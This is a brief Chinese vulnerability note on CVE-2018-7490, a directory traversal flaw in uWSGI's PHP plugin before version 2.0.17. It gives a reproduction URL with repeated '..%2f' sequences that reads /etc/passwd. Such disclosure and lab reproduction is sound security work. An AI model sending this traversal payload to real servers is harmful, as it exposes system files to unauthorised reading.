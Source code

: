 （CVE-2018-7490）uWSGI PHP目录穿越漏洞
======================================

一、漏洞简介
------------

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI
2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

二、漏洞影响
------------

uWSGI \< 2.0.17

三、复现过程
------------

访问`http://www.0-sec.org:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![1.png](resource/(CVE-2018-7490)uWSGIPHP目录穿越漏洞/media/rId24.png)

参考链接
--------

> https://github.com/vulhub/vulhub/blob/master/uwsgi/CVE-2018-7490/README.zh-cn.md
